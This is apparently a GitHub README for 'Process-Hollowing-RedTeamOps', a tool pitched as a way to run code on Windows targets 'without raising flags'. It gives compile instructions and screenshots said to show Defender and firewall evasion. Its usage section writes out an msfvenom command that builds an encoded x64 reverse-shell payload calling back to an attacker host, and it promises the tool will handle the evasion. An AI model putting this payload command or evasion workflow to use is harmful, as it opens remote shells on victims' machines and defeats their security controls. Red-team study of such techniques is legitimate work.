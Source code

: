 # Process-Hollowing-RedTeamOps
##Red Team Operation's Defense Evasion Technique for executing without raising flags on Target System.

We have both x86 and x64 bit release as you want. **we strongly suggest x64-but release if you're bit confused about compiling manually**

We suggest to use directly compiled executables as in some situations it depends on your compiler.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc** 

**For 32-bit - Mingw for Windows**

**#Made with :heartbeat: in :india: !!** 

## Tools Resources and skills used 

1. ChatGPT for required Windows API 
2. Process-Hollowing Technique working
3. Deep-imagination 
4. Error-handling
5. Programming Skills
6. Time
7. Defeating Faliures

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# How to use

***1. Generate a .bin file only - You can use C2 servers and metasploit too***

Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST<IP> LPORT<PORT> -f raw -i <iterations as you want for evasion> -e <encoder you want to use> > shell.bin - **x64-Bit**
  
 ***2. Obfuscation is mainly your work to do as per your operations. The other one's? - WE'LL HANDLE!!!***
  
  
